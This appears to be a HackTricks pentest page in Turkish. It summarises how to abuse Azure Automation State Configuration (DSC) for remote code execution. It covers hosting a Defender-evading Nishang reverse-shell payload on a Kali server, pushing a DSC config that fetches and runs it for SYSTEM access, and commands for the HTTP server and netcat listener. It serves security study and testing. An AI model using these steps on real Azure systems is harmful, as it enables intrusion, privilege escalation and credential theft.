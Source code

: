 # Az - State Configuration RCE

{{#include ../../../../banners/hacktricks-training.md}}

**Tam gönderiyi kontrol edin:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Uzaktan Sunucu (C2) Altyapı Hazırlığı ve Adımların Özeti

#### Genel Bakış

Bu süreç, Windows Defender'ı atlatmak için tasarlanmış, `RevPS.ps1` adında değiştirilmiş bir Nishang `Invoke-PowerShellTcp.ps1` yükünü barındırmak üzere bir uzaktan sunucu altyapısının kurulmasını içerir. Yük, IP'si `40.84.7.74` olan bir Kali Linux makinesinden basit bir Python HTTP sunucusu kullanılarak sunulmaktadır. İşlem birkaç adımda gerçekleştirilir:

#### Adım 1 — Dosyaları Oluştur

- **Gerekli Dosyalar:** İki PowerShell betiğine ihtiyaç vardır:
1. `reverse_shell_config.ps1`: Yükü alıp çalıştıran bir İstenilen Durum Yapılandırması (DSC) dosyasıdır. [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1) adresinden temin edilebilir.
2. `push_reverse_shell_config.ps1`: Yapılandırmayı VM'ye yayınlamak için bir betik, [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1) adresinde mevcuttur.
- **Özelleştirme:** Bu dosyalardaki değişkenler ve parametreler, kullanıcıya özgü ortam için, kaynak adları, dosya yolları ve sunucu/yük tanımlayıcıları dahil olmak üzere, özelleştirilmelidir.

#### Adım 2 — Yapılandırma Dosyasını Ziple

- `reverse_shell_config.ps1` bir `.zip` dosyasına sıkıştırılır, böylece Azure Storage Account'a transfer için hazır hale gelir.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Adım 3 — Depolama Bağlamını Ayarla ve Yükle

- Sıkıştırılmış yapılandırma dosyası, Azure'un Set-AzStorageBlobContent cmdlet'ini kullanarak önceden tanımlanmış Azure Depolama konteyneri olan azure-pentest'e yüklenir.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Adım 4 — Kali Kutusunu Hazırlama

- Kali sunucusu RevPS.ps1 yükünü bir GitHub deposundan indirir.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- Script, hedef Windows VM ve ters shell için port belirtmek üzere düzenlenir.

#### Adım 5 — Yapılandırma Dosyasını Yayınla

- Yapılandırma dosyası çalıştırılır ve sonuç olarak ters shell scripti, Windows VM üzerindeki belirtilen konuma dağıtılır.

#### Adım 6 — Yükü Barındır ve Dinleyici Kur

- Yükü barındırmak için bir Python SimpleHTTPServer başlatılır ve gelen bağlantıları yakalamak için bir Netcat dinleyicisi kurulur.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- Zamanlanmış görev, yükü çalıştırarak SYSTEM düzeyinde ayrıcalıklar elde eder.

#### Sonuç

Bu sürecin başarılı bir şekilde yürütülmesi, kimlik bilgisi dökümü veya saldırının birden fazla VM'ye genişletilmesi gibi daha fazla eylem için birçok olasılığı açar. Kılavuz, Azure Automation DSC alanında sürekli öğrenmeyi ve yaratıcılığı teşvik eder.

{{#include ../../../../banners/hacktricks-training.md}}
